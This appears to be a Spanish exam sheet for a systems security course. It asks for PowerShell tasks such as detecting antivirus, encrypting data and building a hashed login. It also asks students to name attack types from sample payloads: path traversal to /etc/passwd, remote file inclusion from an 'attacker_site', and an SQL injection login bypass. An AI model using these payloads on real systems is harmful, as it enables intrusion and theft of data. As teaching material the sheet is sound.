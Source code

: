 # Examen de la segunda evaluación
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
¿Y esto?
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'
